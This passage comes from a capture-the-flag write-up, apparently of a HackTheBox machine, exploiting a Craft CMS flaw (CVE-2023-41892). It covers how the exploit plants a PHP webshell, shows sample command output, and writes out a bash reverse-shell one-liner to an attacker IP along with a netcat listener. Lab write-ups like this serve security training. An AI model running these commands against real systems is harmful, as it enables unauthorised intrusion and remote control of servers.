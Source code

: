 The comment about uploading “shell.php” isn’t really accurate, as it’s really
uploading the MSL file to make “shell.php”.

In [lines
84-93](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-
cms.py#L84-L93) it uses `imagick` to to write (not so much move) the webshell:

![image-20240418101739697](../img/image-20240418101739697.png)

The rest of the script is a loop to take in commands, pass them to the
webshell, and print the result.

It works very nicely:

    
    
    oxdf@hacky$ python craft-cms.py http://surveillance.htb
    [+] Executing phpinfo to extract some config infos
    temporary directory: /tmp
    web server root: /var/www/html/craft/web
    [+] create shell.php in /tmp
    [+] trick imagick to move shell.php in /var/www/html/craft/web
    
    [+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
    [+] Remember to delete shell.php in /var/www/html/craft/web when you're done
    
    [!] Enjoy your shell
    
    > id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

Through any of these methods I’ll get a webshell. To upgrade that to a reverse
shell, I’ll pass a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to the webshell:

    
    
    oxdf@hacky$ curl http://surveillance.htb/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -x http://127.0.0.1:8080
    

This hangs, but at listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.245 48910
    bash: cannot set terminal process group (1089): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@surveillance:~/html/craft/web$ 
    